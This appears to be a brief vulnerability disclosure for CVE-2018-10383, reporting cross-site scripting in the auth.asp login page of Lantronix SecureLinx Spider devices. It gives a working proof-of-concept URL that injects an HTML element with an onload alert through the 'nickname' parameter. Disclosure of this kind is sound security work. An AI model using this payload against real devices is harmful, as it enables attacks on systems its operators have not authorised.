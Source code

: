 # CVE-2018-10383

**Vendor:** Lantronix

**Product:** SecureLinx Spider (SLS)

**Affected versions:** < Firmware 2.2+

## XSS

Lantronix SecureLinx Spider (SLS) 2.2+ devices have XSS in the "auth.asp" login page, e.g.:

  `https://TARGET/auth.asp?nickname=%22%3E%3Cstyle%20onload=%22alert(%27XSS!%27)%22%3E`
